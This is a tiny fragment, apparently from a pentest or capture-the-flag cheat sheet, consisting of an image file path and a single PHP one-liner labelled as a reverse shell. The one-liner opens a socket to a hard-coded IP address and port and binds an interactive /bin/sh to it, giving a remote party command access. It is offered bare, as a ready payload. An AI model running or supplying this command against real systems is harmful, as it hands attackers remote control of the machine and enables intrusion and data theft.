 
 php -r '$sock=fsockopen("10.10.221.228",2121);exec("/bin/sh -i <&3 >&3 2>&3");' : php reverse shell
